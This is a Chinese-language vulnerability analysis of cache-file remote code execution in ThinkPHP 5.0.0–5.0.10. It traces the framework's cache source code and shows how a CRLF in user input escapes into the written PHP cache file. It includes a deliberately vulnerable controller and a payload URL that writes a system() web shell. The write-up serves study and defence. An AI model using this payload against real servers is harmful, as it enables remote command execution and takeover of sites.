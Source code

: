 # TP5远程代码执行

Version: 5.0.0<=ThinkPHP5<=5.0.10

## 缓存文件写入

在Cache.php的set()中使用init()实例化一个对象并调用其set()方法

`````php
    public static function set($name, $value, $expire = null)
    {
        self::$writeTimes++;
        return self::init()->set($name, $value, $expire);
    }
`````

而init()如下,默认$option=null,所以`$connect=self::connect(Config::get('cache'))`,该值默认为`File`

```php
    public static function init(array $options = [])
    {
        if (is_null(self::$handler)) {
            // 自动初始化缓存
            if (!empty($options)) {
                $connect = self::connect($options);
            } elseif ('complex' == Config::get('cache.type')) {
                $connect = self::connect(Config::get('cache.default'));
            } else {
                $connect = self::connect(Config::get('cache'));
            }
            self::$handler = $connect;
        }
        return self::$handler;
    }
```
而默认cahe的配置如下
```php
'cache'                  => [
        // 驱动方式
        'type'   => 'File',
        // 缓存保存目录
        'path'   => CACHE_PATH,
        // 缓存前缀
        'prefix' => '',
        // 缓存有效期 0表示永久缓存
        'expire' => 0,
    ],
```



connect()方法如下,根据默认配置$Option['type']=File,则$Class即为\think\cache\driver\File,最后即返回了一个该File类,则最后调用的是File类的set方法

```php
    public static function connect(array $options = [], $name = false)
    {
        $type = !empty($options['type']) ? $options['type'] : 'File';
        if (false === $name) {
            $name = md5(serialize($options));
        }

        if (true === $name || !isset(self::$instance[$name])) {
            $class = false !== strpos($type, '\\') ? $type : '\\think\\cache\\driver\\' . ucwords($type);

            // 记录初始化信息
            App::$debug && Log::record('[ CACHE ] INIT ' . $type, 'info');
            if (true === $name) {
                return new $class($options);
            } else {
                self::$instance[$name] = new $class($options);
            }
        }
        return self::$instance[$name];
    }
```

在File类中set()如下,在该类中的set方法中将$value的值进行序列化后与`<?php\n//" . sprintf('%012d', $expire)` 直接进行拼接写入文件,此处可以使用%0d%0a换行来逃逸序列化格式,从而写入任意内容

```php
    public function set($name, $value, $expire = null)
    {
        if (is_null($expire)) {
            $expire = $this->options['expire'];
        }
        $filename = $this->getCacheKey($name);
        if ($this->tag && !is_file($filename)) {
            $first = true;
        }
        $data = serialize($value);
        if ($this->options['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }
        $data   = "<?php\n//" . sprintf('%012d', $expire) . $data . "\n?>";
        $result = file_put_contents($filename, $data);
        if ($result) {
            isset($first) && $this->setTagItem($filename);
            clearstatcache();
            return true;
        } else {
            return false;
        }
    }
```

而文件名是由getCachekey()获取,getCache()如下,根据传入的$name的md5值前两位作为目录名,后30位为文件名

```php
    protected function getCacheKey($name)
    {
        $name = md5($name);
        if ($this->options['cache_subdir']) {
            // 使用子目录
            $name = substr($name, 0, 2) . DS . substr($name, 2);
        }
        if ($this->options['prefix']) {
            $name = $this->options['prefix'] . DS . $name;
        }
        $filename = $this->options['path'] . $name . '.php';
        $dir      = dirname($filename);
        if (!is_dir($dir)) {
            mkdir($dir, 0755, true);
        }
        return $filename;
    }
```

创建测试代码如下,即$name为缓存的键名,username为序列化的值

```php
<?php
namespace app\index\controller;
use think\Cache;
class Index
{
    public function index()
    {
        Cache::set("name",input("get.username"));
        return 'Cache success';
    }
}
```

访问`http://localhost/index.php/index/index?username=aa222%0D%0Asystem($_GET[%27c%27]);//`即可写入缓存文件

![1](1.jpg)



1. 需要知道缓存的键值才能得到文件名
2. 缓存文件在runtime目录下,而一般网站目录在public目录下,无法访问到